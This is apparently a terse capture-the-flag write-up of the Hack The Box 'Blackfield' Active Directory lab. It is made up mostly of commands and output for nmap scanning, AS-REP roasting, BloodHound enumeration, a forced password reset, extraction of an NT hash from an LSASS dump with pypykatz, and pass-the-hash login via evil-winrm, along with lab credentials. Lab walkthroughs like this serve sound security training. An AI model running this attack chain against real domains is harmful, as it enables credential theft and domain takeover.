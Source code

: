 #windows #active-directory 

```shell
┌─[sg-dedivip-1]─[10.10.14.64]─[ch10ro@htb-k469zlkxls]─[~/blackfield]
└──╼ [★]$ nmap -sC -sV -oN nmap/bf $IP -T5 -p- --min-rate=1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-28 01:26 CDT
Nmap scan report for 10.129.245.78
Host is up (0.040s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-28 13:28:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2024-09-28T13:28:09
|_  start_date: N/A


```


# smb profile$ share contains directory with the usernames of the users, I used GetNPUsers.py to check for users with no pre-auth

> Copied the directories on profile$ share then ,saved it on a file then extracted it using awk

```shell
cat users.txt | awk '{print $1}' > ldap.txt
```
```shell
GetNPUsers.py blackfield.local/ -usersfile ldap.txt -format hashcat -outputfile hashes.asrep
```

# Credentials
```shell
support:#00^BlackKnight
```

# Tried using kerberoast attack with the creds, none found
```shell
GetUserSPNs.py blackfield.local/support:"#00^BlackKnight" -dc-ip 10.129.104.92 -request
```

# Used remote bloodhound to enumerate AD 

```shell
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.104.92 -c ALL

```

# there is a user where the support account can change password 

```
audit2020

rpcclient <IP> -U <domain>/username

setuserinfo audit2020 23 <password>
```

> 23 - user level

# modified audit2020 user's password using 'net rpc password'

```shell
net rpc password "AUDIT2020" "Newpass@123456" -U 'blackfield.local'/'support'%'#00^BlackKnight' -S "BLACKFIELD.local" -I 10.129.129.0

```

> The domain has a strict password policy where it requires special characters, uppercase and longer password length

# Used the credentials on the forensic shares, where an LSASS dmp file is found, I used pypykatz to decrypt/read the dmp file

```shell
pypykatz lsa minidump lsass.DMP --json -p all  -o dump.json

```

# svc_backup hash credentials from lsass.dmp

```shell
 "DPAPI": "a03cd8e9d30171f3cfe8caad92fef62100000000",
                        "LMHash": null,
                        "NThash": "9658d1d1dcd9250115e2205d9f48400d",
                        "SHAHash": "463c13a9a31fc3252c68ba0a44f0221626a33e5c",
                        "domainname": "BLACKFIELD",
                        "username": "svc_backup"

```

# Used svc_backup hash to evil-wirn

```shell
 evil-winrm -i 10.129.129.0 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

```